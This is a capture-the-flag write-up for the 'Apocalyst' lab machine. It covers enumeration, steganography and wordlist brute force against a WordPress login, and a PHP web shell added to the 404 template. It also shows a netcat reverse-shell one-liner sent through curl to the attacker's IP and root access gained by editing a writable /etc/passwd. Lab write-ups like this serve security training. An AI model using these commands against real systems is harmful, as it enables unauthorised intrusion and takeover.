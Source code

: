 # Apocalyst Writeup


## Enumeration

#### Port Scanning
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-25 05:20 UTC
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 21.07% done; ETC: 05:20 (0:00:07 remaining)
Warning: 10.129.220.250 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.220.250
Host is up (0.064s latency).
Not shown: 933 closed ports, 65 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.25 seconds
```

#### Directory Fuzzing

Running _gobuster_ on the website didn't reveal anything of meaning, so I ran CEWL on the website, and ran that wordlist against it. 

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                words
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              -t
[+] Timeout:                 10s
===============================================================
2021/11/25 05:30:19 Starting gobuster in directory enumeration mode
===============================================================
/Revelation           (Status: 301) [Size: 321] [--> http://10.129.220.250/Revelation/]
/Book                 (Status: 301) [Size: 315] [--> http://10.129.220.250/Book/]      
/Daniel               (Status: 301) [Size: 317] [--> http://10.129.220.250/Daniel/]    
/the                  (Status: 301) [Size: 314] [--> http://10.129.220.250/the/]       
/end                  (Status: 301) [Size: 314] [--> http://10.129.220.250/end/]       
/that                 (Status: 301) [Size: 315] [--> http://10.129.220.250/that/]      
/and                  (Status: 301) [Size: 314] [--> http://10.129.220.250/and/]       
/entry                (Status: 301) [Size: 316] [--> http://10.129.220.250/entry/]     
/The                  (Status: 301) [Size: 314] [--> http://10.129.220.250/The/]       
/for                  (Status: 301) [Size: 314] [--> http://10.129.220.250/for/]       
<snipped>
```
The list of found directories was very long. There were only a few contents that returned a size bigger than 323, so I inspected each individually. Each one had the same picture on it. The source code for each was also all the same except for one. 

Once I downloaded that image, I ran _stegseek_ on the image, which detected and cracked the steganography and produced another wordlist. I then ran this wordlist on the login page, since it's a wordpress site. I ran `wpscan --url http://apocalyst.htb/ --passwords worlist.txt -U falaraki`. Falaraki is the author of the three blogposts on the site, so I assumed that that would be a valid username. 

This succeeded in finding me a valid login, which then gave me access to the admin panel. 

## Initial Access

For initial access, I went to Appearance -> Editor -> Error 404 Template, and added this line:

`if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }`

This takes a GET parameter called **cmd**, and executes it, displaying the contents to the page. The only way to run it is to pass that parameter on a 404 page, for example, _http://apocalyst.htb/?p=6&cmd=ls_. 

Now that we had RCE, we just have to get a shell. Passing the reverse shell command in the URL bar didn't work too well for me, so I used _curl_. `curl "http://apocalyst.htb/?p=6&" --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.131 443 >/tmp/f"`

## Privelege Escalation

Next, I found I could read a file called _.secret_ in falaraki's home directory, even though I was www-data. The contents were a Base64 encoded password. With that, I logged in over SSH as falaraki for a more stable shell/TTY. 

Finally, I didn't find anything obvious, so I ran LinPEAS on it, which found that /etc/passwd was writeable by my user. I ran `openssl passwd <my_password>` on my host to create a correctly encrypted password that fits the /etc/passwd format, then pasted it into the root user's line in /etc/passwd.

Then, I su'd to root, using the password I just created. 
